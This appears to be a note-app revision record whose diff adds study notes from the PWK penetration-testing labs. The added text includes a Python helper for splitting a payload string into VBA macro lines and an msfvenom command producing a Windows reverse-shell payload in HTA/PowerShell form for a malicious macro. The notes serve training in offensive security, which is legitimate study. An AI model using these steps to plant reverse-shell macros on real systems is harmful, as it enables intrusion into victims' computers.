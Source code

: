 id: b06dee1baa9a44c9a38ef38ee1b91f25
parent_id: 15a05f2e5caa4b26a811f668f419278a
item_type: 1
item_id: 371ec7610fb4403abf7288f049055edb
item_updated_time: 1651122308732
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\" Word.\\\n\\\n\"],[1,\"split string python code is called splitstring.py\\\n\\\n> import sys\\\n> \\\n> string = sys.argv\\\\[1\\\\]\\\n> \\\n> n = 50\\\n> \\\n> for i in range(0, len(string), n):\\\n> \\\n> print(\\\"Str = Str + \\\" + '\\\"' + string\\\\[i:i+n\\\\] + '\\\"')\\\n\\\n# Macro Creation\\\n\\\nvba-psh does not seem to be working during PWK Labs\\\n\\\nInstead, we can use hta-psh and do the similar process of making it a macro\\\n\\\n> msfvenom -p windows/shell\\\\_reverse\\\\_tcp LHOST=192.168.119.206 LPORT=5001 -f hta-psh\\\n\\\n\"],[0,\"# Object\"]],\"start1\":812,\"start2\":812,\"length1\":16,\"length2\":453}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-28T05:11:47.229Z
created_time: 2022-04-28T05:11:47.229Z
type_: 13